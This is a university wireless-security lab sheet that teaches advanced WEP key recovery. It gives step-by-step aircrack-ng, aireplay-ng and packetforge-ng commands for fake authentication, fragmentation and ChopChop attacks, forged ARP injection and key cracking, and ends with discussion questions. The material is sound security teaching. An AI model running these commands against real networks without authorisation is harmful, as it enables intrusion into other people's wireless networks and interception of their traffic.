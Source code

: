 
## Module Code: 6CSEF005W  
**Module name:** Wireless Network Security  
**Lab activity:** Advanced WEP Attacks – Fragmentation & ChopChop  
**Author:** Dr Ayman El Hajjar  

---

#  Lab Activity: Advanced WEP Key Recovery Techniques

---

###  Objective

This lab builds on basic WEP cracking techniques by introducing **Fragmentation** and **ChopChop** attacks. These allow attackers to recover useful keystreams **without needing a connected client** and to inject traffic into a WEP network.

---

##  Requirements

- Wireless card in monitor mode (`wlan0mon`)
- Target AP running WEP
- Tools: `aircrack-ng`, `aireplay-ng`, `packetforge-ng`, `airodump-ng`

---

##
 Background

| Attack          | Purpose                                  |
|------------------|------------------------------------------|
| **Fragmentation**| Recovers small keystream from broadcast packets |
| **ChopChop**     | Decrypts packets byte-by-byte via guesswork |
| **Forged ARP**   | Injects known plaintext to generate traffic |

---

##  Step-by-Step Instructions

### 1. Monitor the AP

```bash
sudo airmon-ng start wlan0
sudo airodump-ng wlan0mon
```

> Identify: BSSID, channel, no. of data packets

---

### 2. Fake Authentication (if needed)

```bash
sudo aireplay-ng -1 0 -a <BSSID> -h <ATTACKER_MAC> wlan0mon
```

---

### 3. Fragmentation Attack

```bash
sudo aireplay-ng --fragment -b <BSSID> -h <ATTACKER_MAC> wlan0mon
```

- Saves a `.xor` file if successful
- Use this for packet crafting

---

### 4. Create a Forged ARP Packet

```bash
sudo packetforge-ng -0 -a <BSSID> -h <ATTACKER_MAC> -k 255.255.255.255 -l 192.168.1.100 -y fragment.xor -w arp-request
```

---

### 5. Inject the Forged Packet

```bash
sudo aireplay-ng -2 -r arp-request wlan0mon
```

---

### 6. ChopChop Attack (Alternative)

```bash
sudo aireplay-ng --chopchop -b <BSSID> -h <ATTACKER_MAC> wlan0mon
```

- Slower but can work when fragment fails

---

### 7. Crack the WEP Key

```bash
sudo aircrack-ng capture.cap
```

> Use `.cap` file generated during replay or injection

---

##  Optional Screenshots

Store in `tasks/img/`:
- Fragmentation `.xor` output
- PacketForge command
- aircrack-ng cracking session

---

##
 Discussion Questions

- What makes these attacks work without a connected client?
- Why is known plaintext so valuable to attackers?
- How do these techniques compare to ARP replay?

---

## Summary


| Attack        | Tool             | Output           | Use Case                         |
|---------------|------------------|------------------|----------------------------------|
| Fragmentation | `aireplay-ng`    | `.xor` file      | Recover keystream                |
| Packet Forge  | `packetforge-ng` | forged packet    | Used for injection               |
| ChopChop      | `aireplay-ng`    | slow IV build-up | Byte-by-byte packet decryption   |
| Crack Key     | `aircrack-ng`    | WEP key          | Final key recovery               |

---
